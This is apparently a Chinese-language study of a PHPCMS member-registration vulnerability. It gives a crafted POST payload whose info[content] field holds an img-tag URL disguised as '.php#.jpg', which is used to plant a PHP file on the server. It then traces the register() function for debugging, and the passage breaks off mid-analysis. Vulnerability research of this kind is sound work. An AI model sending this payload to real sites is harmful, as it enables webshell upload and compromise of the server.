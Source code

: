 

payload:
```
siteid=1&
modelid=11&
username=Tao&
password=123456&
email=Tao@qq.com&
info[content]=<img src=http://localhost/hack.txt?.php#.jpg>&
dosubmit=1&
protocol=

```


不同之處

```
modelid=10 
modelid=11



info[birthday]=2023-02-02& 
info[content]=<img src=http://localhost/hack.txt?.php#.jpg>&



// 這邊無所謂
dosubmit=同意注册协议，提交注册
dosubmit=1
```




所以重點在於 modelid  和 info[] 



先找到註冊的函數

phpcms/modules/member/index.php

搜尋 register()，並斷點 130 133 134 135 行

這邊全部都很重要，建議可以慢慢跟進摸索，
```php=
//附表信息验证 通过模型获取会员信息
if($member_setting['choosemodel']) {
    require_once CACHE_MODEL_PATH.'member_input.class.php';
    require_once CACHE_MODEL_PATH.'member_update.class.php';
    $member_input = new member_input($userinfo['modelid']);		
    $_POST['info'] = array_map('new_html_special_chars',$_POST['info']);
    $user_model_info = $member_input->get($_POST['info']);				        				
}
```
